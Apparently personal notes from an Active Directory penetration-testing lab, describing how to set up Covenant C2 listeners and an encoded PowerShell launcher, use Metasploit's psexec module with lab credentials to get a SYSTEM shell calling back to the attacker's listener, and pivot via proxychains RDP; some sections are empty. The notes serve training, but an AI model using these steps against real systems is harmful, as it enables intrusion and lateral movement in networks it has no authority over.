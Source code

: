 	- Back on `Coveneant`
		- Go to `Listeners`
			- Create a new listener
				- Name: `Reverse HTTP`
				- BindPort: `443`
				- ConnectPort: `2222`
				- ConnectAddress: `10.120.116.10`
![image](https://0xc0rvu5.github.io/docs/assets/images/20221125163634.png)
- Go to `Launchers`
	- Listeners: `Reverse HTTP`
	- DotNetVersion: `Net40`
	- `Generate`
	- Go to `Hosts` tab
		- Url: `/test.ps1`
	- `Host`
	- Copy `EncodedLauncher`
- **Follow the next section to gain system level access**

### Gaining a Shell on an Internal Workstation
- In `Metasploit`
	- `use exploit/windows/smb/psexec`
	- `set rhosts 10.120.116.10`
	- `set smbdomain mayorsec`
	- `set smbpass Password123!`
	- `set smbuser j.taylor`
	- `set payload windows/x64/exec `
	- `set cmd copied_payload_here`
	- `eploit -j`
- A  **system** integrity level shell should be received on `Covenant`

### Remoting Through Proxychains
- Workstation-01
	- `proxychains xfreerdp /u:j.taylor /p:'Password123!' /v:192.168.3.4 /d:mayorsec`
- Why can't I achieve this through workstation-02????

### Unconstrained Delegation

### Golden Ticket Persistence

### Reverse Port Forwarding for Shell on DC01
- **Step by step follow for this instance and still failure. The only deviations were to meet the corresponding dynamic IPs on my system. 2 Covenant system level integrity shells both Workstation-01**
- Open a grunt with `Covenant`
	- [[Covenant Quick Shell on Windows Host]]
```bash
- Open `Covenant`
	- Set up a listener in `Listeners` tab
		- Name: `HTTP Listener`
		- ConnectAddress: `your-ip-address`
		- `Create`
	- Set up a launcher in `Launchers`
		- `PowerShell`
			- Listener: `HTTP Listener`
			- DotNetVersion: `Net40`
				- For a short link: `Net35` **Net35 is manditory when using `msiexec` and fodhelper i.e. `helper.ps1`**
			- KillDate: `some date in future`
			- `Generate`
```
